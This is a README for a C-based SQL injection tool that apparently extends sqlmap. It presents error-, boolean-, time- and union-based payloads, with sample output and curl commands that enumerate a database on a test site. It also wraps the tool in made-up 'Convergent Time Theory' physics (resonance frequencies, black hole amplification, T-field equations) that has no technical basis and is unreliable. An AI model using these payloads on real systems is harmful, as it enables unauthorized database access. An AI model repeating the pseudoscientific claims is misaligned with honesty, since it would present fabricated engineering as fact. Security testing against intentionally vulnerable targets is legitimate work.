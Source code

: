 sqlmap-CTT
==========

sqlmap-CTT is an advanced SQL injection testing tool enhanced with Convergent Time Theory (CTT) principles. It extends the functionality of the open-source sqlmap project by integrating CTT-based techniques for payload generation, vulnerability detection, and database enumeration. Built in C, sqlmap-CTT leverages 587 kHz resonance timing, hardware entropy, timeline convergence, and black hole amplification to prioritize high-impact vulnerabilities.

Features
--------
- **Parameter Discovery**: Automatically identifies GET and POST parameters from URLs and HTML forms.
- **Multiple SQLi Techniques**: Supports error-based, boolean-based, time-based, and union-based SQL injection testing.
- **Database Enumeration**: Extracts database names, tables, columns, and data using targeted payloads.
- **CTT Integration**:
  - **Payload Generation**: Uses hardware entropy (/dev/urandom) for dynamic payloads (Equation 2).
  - **Vulnerability Detection**: Weights vulnerabilities with T-field (Equation 7) and convergence (Equation 4).
  - **Enumeration Prioritization**: Prioritizes queries with mass modulation (Equation 10).
- **Real HTTP Requests**: Uses libcurl for robust HTTP GET and POST requests.
- **RPM Packaging**: Builds and installs on Fedora 42 (kernel 6.16.7-200.fc42.x86_64).

Installation
------------
1. **Prerequisites**:
   Ensure you have `gcc`, `make`, `libcurl-devel`, and `rpm-build` installed:
   ```bash
   sudo dnf install -y gcc make libcurl-devel rpm-build
   ```

2. **Clone the Repository**:
   ```bash
   git clone https://github.com/SimoesCTT/sqlmap-ctt/
   cd sqlmap-ctt
   ```

3. **Run the Setup Script**:
   The provided `setup_sqlmap_ctt.sh` script automates the build and installation process:
   ```bash
   chmod +x setup_sqlmap_ctt.sh
   ./setup_sqlmap_ctt.sh
   ```
   This script:
   - Cleans the project directory.
   - Generates source files, headers, Makefile, and RPM spec.
   - Builds the binary and installs it to `/usr/bin/sqlmap-ctt`.
   - Creates and installs RPM packages (`sqlmap-ctt` and `sqlmap-ctt-utils`).

4. **Verify Installation**:
   ```bash
   ls -l /usr/bin/sqlmap-ctt
   rpm -q sqlmap-ctt sqlmap-ctt-utils
   ```
   Expected output:
   ```
   -rwxr-xr-x 1 root root <size> Sep 14 2025 /usr/bin/sqlmap-ctt
   sqlmap-ctt-1.0.0-1.fc42.x86_64
   sqlmap-ctt-utils-1.0.0-1.fc42.x86_64
   ```

Usage
-----
Run sqlmap-CTT with a target URL:
```bash
sqlmap-ctt http://testphp.vulnweb.com/search.php?test=query
```

**Example Output**:
```
Initializing libcurl...
Initializing CTT resonance...
Testing parameter: searchFor
Sending GET request to: http://testphp.vulnweb.com/search.php?test=query&searchFor=%27%20OR%201234567890123456789%20--&goButton=go
Response time for payload 0: 0.309 seconds
SQLi vulnerability detected in payload 0: ' OR 1234567890123456789 --
[...]
Sending POST request with data: searchFor=' OR 1234567890123456789 --&goButton=go
Response time for payload 10: 0.305 seconds
Boolean-based SQLi vulnerability detected in payload 10: ' OR 1234567890123456789=0 --
[...]
Enumerating database for parameter: searchFor
Enumerating with GET: http://testphp.vulnweb.com/search.php?test=query&searchFor=%27%20UNION%20SELECT%20NULL%2C%20database%28%29%2C%20NULL%20--&goButton=go
Enumeration result: acuart
Enumerating with POST data: searchFor=' UNION SELECT NULL, database(), NULL --&goButton=go
POST enumeration result: acuart
[...]
Analyzing convergence...
Convergence score: <value>
Prioritizing payloads for parameter: searchFor
High-impact payload: ' OR 1234567890123456789 -- (amplified response: <value>, T-field: <value>, vulnerable: yes)
[...]
Skipping submit parameter: goButton
```

CTT Integration
---------------
sqlmap-CTT incorporates Convergent Time Theory (CTT) to enhance performance:
- **587 kHz Resonance (Equation 9)**: `f_res = (α / (2π)) * √((m_T c^2) / E_P)` for precise timing.
- **Convergence Coefficient (Equation 2)**: `c(ξ) = e^{-ξ^2}` for timeline convergence.
- **Mass Modulation (Equation 10)**: `m(f) = m_0 * [1 + 0.17 * exp(-(f - f_res)^2 / (2σ^2))]` for query prioritization.
- **Temporal Wavefunction (Equation 4)**: `Ψ(t) = ∫_{0}^{1} c(ξ) ψ(t, ξ) dξ` for response analysis.
- **T-Field Equation (Equation 7)**: `χ = response_time * g + κ_E * ψ` for vulnerability weighting.

Dependencies
------------
- **libcurl**: For HTTP requests.
- **glibc**: For standard C library functions.
- **gcc**, **make**, **libcurl-devel**, **rpm-build**: For building and packaging.

License
-------
sqlmap-CTT is licensed under the GNU General Public License v2.0 or later. See the `LICENSE` file for details.

Troubleshooting
---------------
1. **Parameters Skipped**:
   Debug the `parse_form_parameters` function:
   ```bash
   gdb --args sqlmap-ctt http://testphp.vulnweb.com/search.php?test=query
   (gdb) break parse_form_parameters
   (gdb) run
   (gdb) print params[*param_count].name
   (gdb) print params[*param_count].is_submit
   ```
   Check HTML:
   ```bash
   curl -o response.html http://testphp.vulnweb.com
   grep "<input" response.html
   ```

2. **Enumeration Fails**:
   Verify the endpoint:
   ```bash
   curl -I http://testphp.vulnweb.com/search.php?test=query
   ```
   Test manually:
   ```bash
   curl -X POST -d "searchFor=' UNION SELECT NULL, database(), NULL --&goButton=go" http://testphp.vulnweb.com/search.php?test=query
   ```

3. **False Positives**:
   Check response content:
   ```bash
   curl -o response.html "http://testphp.vulnweb.com/search.php?test=query&searchFor=%27%20OR%201=1%20--&goButton=go"
   grep -i "sql syntax\|mysql_fetch\|database error" response.html
   ```

4. **libcurl Issues**:
   Verify `libcurl`:
   ```bash
   curl --version
   ```
   Check network:
   ```bash
   ping -c 4 testphp.vulnweb.com
   ```

Contributing
------------
Contributions are welcome! Please submit pull requests or issues to the GitHub repository: https://github.com/consciousness-project/sqlmap-ctt

Contact
-------
For questions or support, contact Americo Simoes at developer@consciousness.ai.

